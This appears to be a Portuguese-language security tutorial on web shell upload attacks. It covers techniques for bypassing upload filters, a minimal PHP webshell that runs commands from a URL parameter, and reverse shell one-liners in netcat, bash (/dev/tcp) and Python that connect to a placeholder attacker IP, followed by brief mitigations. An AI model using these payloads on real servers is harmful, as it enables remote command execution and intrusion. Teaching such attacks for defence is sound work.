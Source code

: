
# Shell Upload

Shell Upload é uma técnica de ataque onde um invasor faz o upload de um arquivo malicioso (web shell) para um servidor web vulnerável. Esse arquivo pode permitir a execução de comandos remotos, obtenção de acesso ao sistema ou escalonamento de privilégios.

---

### Métodos Comuns de Exploração:

- **Exploração de falhas no upload de arquivos** – Alguns sites permitem upload de arquivos sem verificar adequadamente sua extensão ou conteúdo.

- **Alteração de cabeçalhos HTTP** – Manipular cabeçalhos `Content-Type` pode enganar a verificação do servidor.

- **Dupla extensão** – Enviar arquivos como `shell.php.jpg`, dependendo da configuração do servidor.

- **Bypass em filtros de upload** – Modificar a estrutura do arquivo para evitar bloqueios baseados em assinaturas conhecidas.

---

### Burlar validação do site

Os sistemas web normalmente possuem filtros para impedir o upload de arquivos maliciosos, mas muitas vezes esses filtros podem ser contornados. Algumas técnicas incluem:

- **Alteração de extensão**: Alguns servidores permitem a execução de arquivos `.php5`, `.phtml`, `.phar`.

- **Uso de caracteres especiais**: Inserir caracteres como `%00` (null byte) para enganar verificações de extensão.

- **Codificação**: Esconder código malicioso em imagens (`GIF89a;<?php system($_GET['cmd']); ?>`).

- **Uso de arquivos** `.htaccess`: Configurar o servidor para executar scripts em extensões inesperadas.

---

### shell_exec()

A função `shell_exec()` do PHP permite executar comandos no sistema operacional diretamente do código. Se um invasor conseguir fazer upload de um web shell e chamar essa função, ele pode executar qualquer comando no servidor.

Exemplo de uso:

~~~php
<?php
echo shell_exec("whoami");
?>
~~~

*Isso retorna o nome do usuário que está executando o servidor.*

Alternativas perigosas em PHP:

- `system()`

- `exec()`

- `passthru()`

- `comando (backticks)`

---

### Webshell

Uma webshell é um script malicioso carregado em um servidor para permitir que um atacante execute comandos remotamente. Geralmente são desenvolvidos em PHP, ASP, JSP ou Python.

Exemplo de Webshell PHP:

~~~php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
~~~

*Acessando `http://site.com/shell.php?cmd=whoami`, o invasor pode executar comandos diretamente no sistema.*

---

### Shell reversa

Uma shell reversa permite que um invasor controle um servidor comprometido através de uma conexão estabelecida de dentro para fora. Como firewalls geralmente bloqueiam conexões externas, uma shell reversa força o servidor a se conectar à máquina do invasor, contornando restrições.

Exemplo de comando para abrir uma shell reversa em Linux:

~~~bash
nc -e /bin/sh atacante_ip porta
~~~

Ou em PHP:

~~~php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/ATACANTE_IP/PORTA 0>&1'");
?>
~~~

---

### Python Reverse Shell

Python é muito utilizado para criar shells reversas devido à sua portabilidade.

Exemplo de Shell Reversa em Python:

~~~py
import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("ATACANTE_IP", PORTA))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
~~~

*O código conecta o servidor comprometido ao IP do atacante, redireciona a entrada/saída para o socket e abre um shell interativo.*

---

### Medidas de Mitigação

- Restringir upload de arquivos a tipos seguros (exemplo: `.jpg`, `.png`).

- Validar MIME Type e extensão do arquivo no backend.

- Bloquear a execução de arquivos na pasta de upload.

- Configurar o servidor para evitar execução de scripts em diretórios públicos.

- Monitorar logs e processos suspeitos.

---
